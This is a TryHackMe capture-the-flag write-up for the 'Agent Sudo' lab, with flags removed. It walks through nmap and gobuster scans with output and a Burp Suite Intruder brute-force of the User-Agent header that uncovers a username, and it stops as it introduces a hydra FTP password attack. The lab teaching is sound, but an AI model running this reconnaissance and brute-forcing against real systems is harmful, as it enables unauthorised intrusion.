# Try Hack Me Writeup - Agent Sudo

- TryHackMe room: <https://tryhackme.com/room/agentsudoctf>
- OS: `Linux (Ubuntu)`

You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

**WARNING: I stripped out the answers, passwords, flags and co. This writeup is pretty detailed. By following and doing the steps described here yourself you will get them all. The goal is to learn more about it, even if you get stuck at some point. Enjoy!**

*PS. Don't be confused by the 2 different IP addresses show on the screenshots in this writeup. I had to redo this partially due missing screenshots for this writeup.*

## Table of Contents

- [Room author note](#room-author-note)
- [Tools Used](#tools-used)
- [Setup](#setup)
- [Enumeration ports and services](#enumeration-ports-and-services)
- [Handling the Web Server](#handling-the-web-server)
  - [Playing with the User Agent](#playing-with-the-user-agent)
- [Hash cracking and brute-force](#hash-cracking-and-brute-force)
- [Handling the hidden data in the files](#handling-the-hidden-data-in-the-files)
- [Capture the user flag](#capture-the-user-flag)
- [Privilege escalation](#privilege-escalation)

## Room author note

Welcome to another THM exclusive CTF room. Your task is simple, capture the flags just like the other CTF room. Have Fun!

If you are stuck inside the black hole, post on the forum or ask in the TryHackMe discord.


## Tools Used

* `nmap` - For the host enumeration.
* `gobuster` - For the file and directory enumeration of the web server
* `Burp Suite` - To enumerate and fake the user-agent.
* `FoxyProxy` - To work togheter with the Burp Suite tool.
* `User-Agent Switcher and Manager` (Firefox add-on) - To modify user agent of the browser.
* `hydra` - Online password cracking of the ftp server.
* `steghide`, `binwalk` - Get info and extract image files (steganography)
* `john`, `zip2john` - To crack the zip file.

## Setup

To make things more easy, I will create an environment variable which will hold the target's IP address. And then when needed for an app, refer to it. But this before I run `tmux`.

```
$ export IP=10.10.216.225
$ tmux
```

## Enumeration ports and services

**Enumerate the machine and get all the important information**

First, enumerate the ports of the victim which has the ip `10.10.216.225`. Like this is an easy Capture The Flag exercise, I go like a pig and scan all ports.

```commandline
# nmap -p- -A $IP
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-03 02:14 CEST
Nmap scan report for 10.10.216.225
Host is up (0.030s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/3%OT=21%CT=1%CU=44283%PV=Y%DS=2%DC=T%G=Y%TM=61088AA4
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=A)OPS(
OS:O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST11
OS:NW7%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   29.61 ms 10.8.0.1
2   29.98 ms 10.10.216.225

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.24 seconds
```

3 ports open: `ftp`, `ssh` and `http` on an `Ubuntu` machine. According to my `nmap` scan result, the ftp server is not with anonymous login. So I will not try to connect to `ftp`. I need more hints to start with.

## Handling the Web Server

So I will first take a look on the web server.



Okay, there is a need to cheat with the `user-agent` settings of the browser. But what's the `codename` should I use? What's a code name exactly? Why is there only writen Agent `R` and not his full forename. This is mission impossible. Need to gather more information. Looked into the source code of that page, but didn't get some hints.

So I will scan the website with `gobuster`. But the result is not giving me any hints.

```commandline
$ gobuster dir -w /usr/share/dirb/wordlists/big.txt -u http://$IP/ -o /tmp/gobuster_scan_result 

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.216.225/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/08/03 03:04:39 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
                                               
===============================================================
2021/08/03 03:05:43 Finished
===============================================================
```

File and directory crawling didn't give any hints. So we can forget this.

### Playing with the User Agent

With the `Intruder` feature of the `Burp Suite` tool we can easily do a mass attack. Note that we need to have some proxy tool in the web browser, for this I used [FoxyProxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search) which will redirect everything to `127.0.0.1` on port `8080`. Just the standard config for `Burp Suite` which then intercept all the data and forward back to the web browser. Once `FoxyProxy` configured and enabled for `Burp`, I started up the `Burp Suite` tool. 





Went in the `Burp Suite`, in `Proxy` tab, then `intercept`, Then checked that the `intercept is off` option is activated (which is by default btw). However, in this case, it does not really matter.

Then I reload the webpage again with `FireFox`. And then went back to the `Burp Suite` tool, in `Proxy` > `HTTP History` to check that he had been intercepted the request. From there I have `Send to the Intruder`.



Then in the `Intruder` tab, Positions, I have created some kind of variable for the content of the User-Agent field. For this, i have selected the `Mozilla/5.0 ... Firefox/78.0` text and pressed on the Add button on the right. 



To make things more easily, instead of putting the whole alphabet one by one in the `Burp Suite`, I created a text file with the `Mousepad` text editor and have with each character of the alphabet. Each letter on a new line. Starting in upper case and then the whole alphabet in lower case. Doing it this way is more efficient in case of if I need to start over again. And as bonus, with the `Mousepad` text editor I see the line numbers so I can be more confident I didn't forget at letter.



In `Burp Suite`, in the `Payloads` tab, in the section of `Payload Options [Simple list]`, I pressed the `Load...` button and browsed to my text file I previously created. After that I have pressed the orange `Start attack` button.



I first got a nice warning / reminder message: `The Community Edition of Burp Suite contains a demo version of Burp intruder. Some functionality is disabled, and attacks are time throttled. Please visit https://portswigger.net for more details about Burp Suite Professional which contains the full version.` So I pressed on the `OK` button as for what I need to do it is alright.



Like said in the Warning / Reminder, the requests are throttles, so it takes a moment before ... After this is done, we get a list. We should observe the columns `Status` (HTTP Status) and `Length`. We see that the Payload for user-agent C gives a `HTTP Status` of `302` (redirect). And for the character `R` the length is 501 instead of `409` like all the rest (except for `C`).





To make things more clear in the screenshot, and to have all information visible without the need to scroll, I have dragged the split line a bit to above. 

Selecting back `Request 3` (letter `C`) right click on the line and select `Show response in browser`.


Press the `Copy` button to copy the URL into the clipboard. This link seems strange but it will redirect, you will see.



Paste that link into the web browser and look:


Do the steps for the letter `R` we found.



So we know there are 25 employees. Maybe 26 as we don't know if agent R has counted himself.

We can eventually try manually with some FireFox add-on, an add-on that allows us to change the user-agent setting. So that we have confirmation of this all.

With the [User-Agent Switcher and Manager](https://addons.mozilla.org/en-US/firefox/addon/user-agent-string-switcher/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search) add-on for Firefox, I tried the alphabeth. A, B, C and after the third attempt, I was lucky. Sometimes things are not complicated.





Reloaded the page so that the web server know about my (new) user agent and the web page give me something. So now we have a bit more information. So far, we have a username (`chris`).



Note to myself, don't forget to press that `Reset` button in the `User-Agent Switcher and Manager` Settings to reset the `user-agent` to its default values.

### Answer the questions below

**How many open ports?**

    3

**How you redirect yourself to a secret page?**

    user-agent

**What is the agent name?**

    chris

## Hash cracking and brute-force

Done enumerate the machine? Time to brute your way out.

### Handling the FTP server

Let's first try out on the `ftp` server, they are usually badly protected. Compared to a `ssh` server which can have some system in place to ban you, like `fail2ban`. We should always start by hitting the weak points. For this I will make use of `hydra` to do an online bruteforce dictionary attack on the `ftp` server.

